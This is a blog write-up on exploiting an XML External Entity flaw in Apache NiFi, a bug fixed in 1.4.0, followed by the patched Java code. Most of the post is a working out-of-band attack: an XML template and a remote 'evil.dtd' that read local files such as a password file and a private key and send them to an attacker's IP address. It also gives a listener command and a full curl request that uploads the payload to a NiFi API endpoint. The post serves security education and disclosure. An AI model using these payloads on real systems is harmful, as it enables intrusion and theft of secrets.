 +++
title = "Exploiting XXE Vulnerabilities in Apache NiFi"
date = "2018-01-11T17:30:00+08:00"
tags = ["exploit", "xxe", "nifi"]
categories = ["security"]
banner = "img/blog/2018/01/xxe-vulnerabilities-banner.png"
+++

## Introduction

I've based this write up on a fantastic one published by [Chris Davis from Counter Hack on the SANS Pen-testing blog](https://pen-testing.sans.org/blog/2017/12/08/entity-inception-exploiting-iis-net-with-xxe-vulnerabilities). The actual exploit itself is one that has been acknowledged and [fixed in the latest public build of NiFi (1.4.0)](https://nifi.apache.org/security.html).

The reason for this post is purely for education purposes, as I'd worked with XML External Entity attacks in the past; but never fully understood how and why they work.

### Exfiltration over Inception

The first exploit works by taking advantage of a small gap in the well-formed restrictions put on the XML. Lets take a look at the way we could potentially load an external entity.

```xml
<?xml version="1.0" encoding="utf-8"?-->
<!DOCTYPE demo [
     <!ELEMENT demo ANY >
     <!ENTITY % extentity SYSTEM "http://203.59.106.231:9002/evil">
     %extentity;
     ]
>
```

Here we are trying to load an entity from the URI of our control web server. Unfortunately however XML has some well-formed restrictions that prohibit this behaviour.

Instead perhaps we try **Entity Inception** where we attempt to load an external entity from another sub entity within our XML payload.

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE demo [
    <!ELEMENT demo ANY >
    <!ENTITY % extentity "<!ENTITY stolendata SYSTEM ?file:///Users/nathan/Documents/bitcoinpassword'>">
    %extentity;
    ]
<
```

Unfortunately you cannot declare a URI to load an external entity (for example, `/Users/nathan/Documents/bitcoinpassword` and declare it as a value directly, so this isn't going to work either.

Knowing that we can't currently reference a file on the system, but we can get the parser to grab a resource from a URI we can look at a mechanism that allows us to load Data Type Defitions from a file. This is called DTD (Data Type Definition) and it's loaded prior to an XML file being parsed.

This actually lets us load in typically restricted entity payloads and bypass the checks done by some less robust parsers.

Take a look at the following DTD file that will be served up remotely

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % stolendata SYSTEM "file:///Users/nathan/Documents/bitcoinpassword">
<!ENTITY % inception "<!ENTITY &#x25; sendit SYSTEM 'http://203.59.106.231:9002/?%stolendata;'>">
```

The DTD file will load the target system with the `%inception` and `%sendit` variables, that come packed with the `%stolendata` entity; negating the well-formed restrictions.

Here's the XML file that will be loaded into NiFi to exploit the vulnerability.

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE demo [
	<!ELEMENT demo ANY >
	<!ENTITY % extentity SYSTEM "http://203.59.106.231:9002/evil.dtd">
	%extentity;
	%inception;
	%sendit;
	]
>
```

The diagram below outlines again how this attack takes place.

<img class="img-responsive image-box-shadow" src="/img/blog/2018/01/xxe-nifi-diagram.png" />

#### Running the Attack

Nathan has felt pretty smug recently, having made 1.6 billion fake dollars in the Crypto currency boom he's retired and started learning NiFi in his freetime.

He left his wallet private key and its password just sitting on the NiFi server (he use to use this system to mine) in his documents folder!

Let's use XXE to grad his data and make a clean get away! First we create the two files needs for this exploit:

* nifi-xxe-example.xml

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE demo [
	<!ELEMENT demo ANY >
	<!ENTITY % extentity SYSTEM "http://203.59.106.231:9002/evil.dtd">
	%extentity;
	%inception;
	%sendit;
	]
>
```

* evil.dtd

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % stolendata SYSTEM "file:///Users/nathan/Documents/bitcoinpassword">
<!ENTITY % inception "<!ENTITY &#x25; sendit SYSTEM 'http://203.59.106.231:9002/?%stolendata;'>">
```

Then we start up a remote listener on port 9002 (or any port that was defined in the DTD and rouge NiFi template)

```bash
python -m SimpleHTTPServer 9002
```

Turns out he also left his NiFi server with the default `No Authentication`, so we can simply open up the web page that serves NiFi's flow viewer on http://nifi.nathanglover.com:8080/nifi/

<img class="img-responsive image-box-shadow" src="/img/blog/2018/01/xxe-nifi-flow-view.jpg" />

We then start up our python HTTP listener, or any other web server that could be hosting out malicious DTD payload

<img class="img-responsive image-box-shadow" src="/img/blog/2018/01/xxe-nifi-webserver.jpg" />

Then we just upload the template

<img class="img-responsive image-box-shadow" src="/img/blog/2018/01/xxe-nifi-upload-flow.jpg" />

You should see two GET requests to your web server

<img class="img-responsive image-box-shadow" src="/img/blog/2018/01/xxe-nifi-password-extract.jpg" />

* /evil.dtd - This is the NiFi instance pulling your malicious Data Type Definition file
* /?hunter1 - This is the contents of the `bitcoinpassword` file!

Now to get the private key we simply change the line in `evil.dtd` to a different target file and run it again

```bash
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % stolendata SYSTEM "file:///Users/nathan/Documents/privatekey">
<!ENTITY % inception "<!ENTITY &#x25; sendit SYSTEM 'http://203.59.106.231:9002/?%stolendata;'>">
```

<img class="img-responsive image-box-shadow" src="/img/blog/2018/01/xxe-nifi-private-key-extract.jpg" />

I've also included a copy of the `curl` command in case you want to run this headless

```bash
curl -i -s -k -X  'POST'  \
 -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:58.0) Gecko/20100101 Firefox/58.0'  -H 'Accept: application/xml, text/xml, */*; q=0.01'  -H 'Accept-Language: en-US,en;q=0.5'  -H 'Referer: http://nifi.nathanglover.com:8080/nifi/'  -H 'X-Requested-With: XMLHttpRequest'  -H 'Content-Length: 421'  -H 'Content-Type: multipart/form-data; boundary=---------------------------51116583712296344591231217332'  -H 'Cookie: _ga=GA1.2.449301531.1511008419'  -H 'Connection: keep-alive'  -H ''  \
--data-binary $'-----------------------------51116583712296344591231217332\r\nContent-Disposition: form-data; name=\"template\"; filename=\"nifi-xxe-example.xml\"\r\nContent-Type: text/xml\r\n\r\n<?xml version=\"1.0\" encoding=\"utf-8\"?>\n<!DOCTYPE demo [\n\t<!ELEMENT demo ANY >\n\t<!ENTITY % extentity SYSTEM \"http://203.59.106.231:9002/evil.dtd\">\n\t %extentity;\n\t%inception;\n\t%sendit;\n\t ]\n>\n\r\n-----------------------------51116583712296344591231217332--\r\n' \
'http://nifi.nathanglover.com:8080/nifi-api/process-groups/e5467fac-0160-1000-79c7-86152e91f12e/templates/upload'
```

This was based off the request captured from OWASP ZAP

<img class="img-responsive image-box-shadow" src="/img/blog/2018/01/xxe-nifi-owasp-zap.jpg" />

#### Limitations

Currently there a few limitations and exclusions to this attack. I've found that it only works appropriately when all the text in the file you are pulling is only a single line. I tested and noticed that `\n` characters appear to break the URI stream and you end up losing the whole value.

I also attempted to exploit a couple known [denial of service attacks](https://www.owasp.org/index.php/XML_Security_Cheat_Sheet#Quadratic_Blowup) however it became clear that Java SE 5+ has a restriction on entity expansion to 64,000 elements enabled by default, so if I try to ingest DoS XEE you'll get an error like the following

```bash
2018-01-11 23:20:40,226 ERROR [NiFi Web nifi-docker-01] o.a.nifi.web.ContentViewerController Unable to generate view of data: Unable to transform content as XML: net.sf.saxon.trans.XPathException: org.xml.sax.SAXParseException; lineNumber: 1; columnNumber: 1; JAXP00010001: The parser has encountered more than "64000" entity expansions in this document; this is the limit imposed by the JDK.
```

### The Fix
---

NiFi have currently fixed this bug in 1.4.0 releases of NiFi. The code changes can be [found at this following commit](https://github.com/apache/nifi/commit/3bf1d127062a2d52d7be32e5ef29e19242219f48).

To summarize, the new code seen below now includes a secure processing validator which is run over all XML uploaded to NiFi from the template view

```java
public static final PropertyDescriptor SECURE_PROCESSING = new PropertyDescriptor.Builder()
        .name("secure-processing")
        .displayName("Secure processing")
        .description("Whether or not to mitigate various XML-related attacks like XXE (XML External Entity) attacks.")
        .required(true)
        .defaultValue("true")
        .allowableValues("true", "false")
        .addValidator(StandardValidators.BOOLEAN_VALIDATOR)
        .build();

...

private Templates newTemplates(ProcessContext context, String path) throws TransformerConfigurationException {
    final Boolean secureProcessing = context.getProperty(SECURE_PROCESSING).asBoolean();
    TransformerFactory factory = TransformerFactory.newInstance();

    if (secureProcessing) {
        factory.setFeature(XMLConstants.FEATURE_SECURE_PROCESSING, true);
        // don't be overly DTD-unfriendly forcing http://apache.org/xml/features/disallow-doctype-decl
        factory.setFeature("http://saxon.sf.net/feature/parserFeature?uri=http://xml.org/sax/features/external-parameter-entities", false);
        factory.setFeature("http://saxon.sf.net/feature/parserFeature?uri=http://xml.org/sax/features/external-general-entities", false);
    }

    return factory.newTemplates(new StreamSource(path));
}
```

## References
---

[CVE-2017-12623 NIST Detail](https://nvd.nist.gov/vuln/detail/CVE-2017-12623)

[NIFI-4125 commit resolving CVE-2017-12623](https://github.com/apache/nifi/commit/3bf1d127062a2d52d7be32e5ef29e19242219f48)

[Exploiting XXE Vulnerabilities in IIS/.NET](https://pen-testing.sans.org/blog/2017/12/08/entity-inception-exploiting-iis-net-with-xxe-vulnerabilities)

[XML Schema, DTD, and Entity Attacks](https://vsecurity.com//download/papers/XMLDTDEntityAttacks.pdf)

[XML Security Cheat Sheet](https://www.owasp.org/index.php/XML_Security_Cheat_Sheet)